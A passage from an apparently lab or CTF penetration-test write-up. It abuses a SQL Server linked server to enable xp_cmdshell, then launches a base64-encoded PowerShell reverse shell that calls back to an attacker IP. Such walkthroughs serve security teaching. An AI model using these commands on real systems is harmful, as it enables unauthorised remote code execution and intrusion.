So I will connect via Evil-winrm and do it manually so I can get a shell back





And we can see that we can execute commands on the remote server(m3sqlw.m3c.local) as sysadmin!



Now we should be able to enable the XP_CmdSHELL and get a rce on the linked server!

```
EXECUTE('EXEC SP_CONFIGURE ''show advanced options'',1;reconfigure;EXEC SP_CONFIGURE ''xp_cmdshell'',1;reconfigure;
') AT [m3sqlw.m3c.local]
```

Seems like a success?  


To be sure now we can try to execute a command on behalf of the linked server?

```
EXECUTE('EXEC xp_cmdshell ''whoami''') AT [m3sqlw.m3c.local]
```



Bingo! Now we should be able to get a rce directly via Powershell encoded commando!

```
EXECUTE('EXEC xp_cmdshell ''powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADIAMAAuADEAMwAiACwAOAAwADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=''') AT [m3sqlw.m3c.local]
```

This get us a reverse shell back in our Evil-winrm session on the machine SQL!



&nbsp;

&nbsp;